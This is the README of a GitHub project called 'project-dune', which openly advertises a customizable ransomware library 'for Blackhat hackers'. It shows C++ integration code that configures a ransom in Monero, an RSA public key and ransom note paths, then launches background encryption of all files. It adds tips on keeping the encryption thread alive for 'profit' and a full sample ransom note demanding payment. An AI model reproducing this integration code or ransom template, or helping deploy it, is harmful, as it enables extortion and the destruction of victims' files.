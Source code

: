 # project-dune
An advanced customizable ransomware solution for Blackhat hackers.

## Usage

Example integration
```cpp
    std::vector<std::string> notes_to_write;
    notes_to_write.push_back("./ransom.txt");
    notes_to_write.push_back("/ransom.txt");
    // Random public key.
    std::string public_key = "-----BEGIN PUBLIC KEY-----\n"
                             "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3LhafKJnVq/xa/1d40hcETsyG\n"
                             "CLSxlhXfJWERLPY14Di6EyKZj+e7+IpZF489pxnDEode2UaN/Mq0/hCy8epOrfx1\n"
                             "0BKGlxY72fPDt9MvThCs6DokeK4cIzcMEKQv4RNBF8q3winAM1SGnxLu7RWx2npF\n"
                             "ND8Xa8c7d8il4AjK5QIDAQAB\n"
                             "-----END PUBLIC KEY-----\n";
    dune::Dune dune = dune::Dune(2.0, "XMR", "your crypto address here", "You have been pwned!", notes_to_write, "tech@anon.gov", public_key);
    dune::Acknowledgement ack;
    ack.are_you_sure_you_want_to_do_this = true;
    ack.i_accept_the_risks_and_consequences_of_my_actions = true;
    ack.i_understand_it_is_illegel = true;
    dune.attack(ack, true);
```

The Dune ransomware class contains two important methods. The attack method and the constructor. The constructor accepts several required arguments to tell the malware how to behave (Ex: what crypto address to demand). The most important parameter is the PEM formatted RSA key. The RSA public key must be valid, or behavior is not guaranteed. The class requires a string vector containing absolute or relative file paths to be supplied to create many ransom notes. More, the better. The class also takes an argument specifying the amount and type of cryptocurrency to be ransomed. It also accepts a message to include in the ransom file and can be left as an empty string—an email parameter to have so that the victim can contact the ransomer.

## Notes
The attack method creates a thread that will encrypt all files in the background. Since this could take a while, you will need to create a while loop to wait until verify_done returns true. Remember to sleep between calls to it, or it will slow the encryption. You must do this to keep the thread alive, or encryption will likely result in corrupt files and no profit.

Example:
```cpp
dune.attack(ack, true);

while (!dune.verify_done()) {
    std::this_thread::sleep_for(std::chrono::milliseconds(5000));
}
```

This is an example Dune ransonware note file:
```
Message from hacker: You have been pwned!

You must pay in this type of cryptocurrency XMR.
The ransom amount is 2.000000 XMR.
The address to pay is: 

your address here

This address is specific to this attack. If you have multiple attacks paying another address will not help you get your files back. The full amount or more must be paid to the XMR address specified.
DO NOT MODIFY THIS OR ALL YOUR FILES WILL BE LOST (It is the RSA encrypted key for decryption)

GJXy2U6fJlThFBb9a1WwQFGfNzAlkpAmYTyrd+zddNJyxwhJrrwTStvtOM40OMtvLNiGWhIFAU7kFrQnmxzuntFse1+hzqmxz3xgUI+l5KiVgXiNvaLDmvGdvjCGg0ADjQcD/mkCW0FIIdtXXjNr+2seACPCFjYEajryMuPXekE=

Send this whole file to this email address AFTER you have paid the ransom: tech@anon.gov

If you contact this email before the ransom is paid in full it will likely be increased.


This is your victim id: d89ecb59-173c-d8de-5714-3cfa.
```

Enjor the easy integration.